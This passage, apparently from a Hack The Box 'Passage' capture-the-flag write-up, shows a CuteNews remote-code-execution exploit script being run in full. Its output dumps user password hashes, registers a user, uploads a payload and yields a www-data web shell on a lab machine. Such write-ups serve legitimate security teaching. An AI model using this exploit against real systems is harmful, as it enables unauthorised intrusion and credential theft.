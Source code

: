 ### AutoExploit - Python RCE

The Python script is pretty straightforward which drops us a webshell:

```shell
cfx:  ~/Documents/htb/passage
→ python3 48800.py



           _____     __      _  __                     ___   ___  ___
          / ___/_ __/ /____ / |/ /__ _    _____       |_  | <  / |_  |
         / /__/ // / __/ -_)    / -_) |/|/ (_-<      / __/_ / / / __/
         \___/\_,_/\__/\__/_/|_/\__/|__,__/___/     /____(_)_(_)____/
                                ___  _________
                               / _ \/ ___/ __/
                              / , _/ /__/ _/
                             /_/|_|\___/___/




[->] Usage python3 expoit.py

Enter the URL> http://10.10.10.206
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
7144a8b531c27a60b51d81ae16be3a81cef722e11b43a26fde0ca97f9e1485e1
4bdd0a0bb47fc9f66cbf1a8982fd2d344d2aec283d1afaebb4653ec3954dff88
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
f669a6f691f98ab0562356c0cd5d5e7dcdc20a07941c86adcfce9af3085fbeca
4db1f0bfd63be058d4ab04f18f65331ac11bb494b5792c480faf7fb0c40fa9cc
================================================================

=============================
Registering a users
=============================
[+] Registration successful with username: 6Jd1qfOvZG and password: 6Jd1qfOvZG

=======================================================
Sending Payload
=======================================================
signature_key: 28e86c738babfbf544fa6f85798f4604-6Jd1qfOvZG
signature_dsi: 2bdb70bfb5c5efb697ca18ea4a74007d
logged in user: 6Jd1qfOvZG
============================
Dropping to a SHELL
============================

command > id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

command > whoami
www-data
```
